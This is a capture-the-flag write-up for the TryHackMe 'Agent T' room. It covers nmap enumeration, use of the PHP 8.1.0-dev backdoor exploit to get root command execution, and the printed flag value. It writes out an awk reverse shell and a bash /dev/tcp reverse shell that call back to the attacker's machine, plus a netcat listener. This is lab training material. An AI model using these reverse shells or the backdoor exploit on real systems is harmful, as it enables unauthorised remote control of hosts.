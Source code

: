 # [Agent T](https://tryhackme.com/room/agentt)

```
export IP=10.10.216.139
```

---

## Task 1
1. What is the flag?
	a. `nmap -sV -sC -oN nmap/initial $IP`
	```
	80/tcp    open     http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
	|_http-title:  Admin Dashboard
	6004/tcp  filtered X11:4
	57797/tcp filtered unknown
	```

	b. Left off looking into the `searchsploit Bootstrap`. Check out the two .txt files in the directory.

	c. No exploits with Bootstrap 4.

	d. Googled around and found that there is a `backdoor` exploit with `PHP 8.1.0-dev`: https://www.exploit-db.com/exploits/49933.

	e. Copied and modified the exploit to the `php_8.1.0-dev_exploit.py` file.

	f. Executed it and was able to run `root` level commands. However, the shell wasn't very stable. Still, was able to find the flag @ `/flag.txt`:

	`flag{4127d0530abf16d6d23973e3df8dbecb}`

	g. After finding the flag, I went back to figure out how to stabalize the shell.

	h. I looked for python (versions 2 and 3) and netcat on the host system, but couldn't find anything that I knew could be used for a reverse shell.

	i. Googled `reverse shells` and found the GitHub page [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and began searching the host system for any of the listed binaries.

	j. Luckily, the first binary I searched for (`which awk`) got a hit and so I took the PayloadAllTheThings awk reverse shell script and modified it accordingly.

	```
	# Variables:
	export LHOST=10.6.53.245
	export LPORT=9999

	# Start netcat on local machine:
	nc -lnvp 9999

	# The reverse shell command (update the IP and port accordingly):
	awk "BEGIN {s = \"/inet/tcp/0/10.6.53.245/9999\"; while(42) { do{ printf \"shell>\" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != \"exit\") close(s); }}" /dev/null
	```

	k. This didn't work and I ended up trying a whole lot of other reverse shells, but none of them worked :(

	l. HEYYOOO, me again. So watched a John Hammond video and tried the following commands and was able to secure a reverse shell.

	```
	# Setup local:
	nc -lnvp 9999
	# Send reverse shell command to `php_8.1.0-dev_exploit.py` backdoor (copy as is):
	bash -c 'sh -i >& /dev/tcp/10.6.53.245/9999 0>&1'
	```

	m. Now, because no version of Python was installed on the target machine, I couldn't stabalize my reverse shell very easily. I read online that if I wanted to, I could install a static version of python on the machine, but I didn't want to go through that effort.
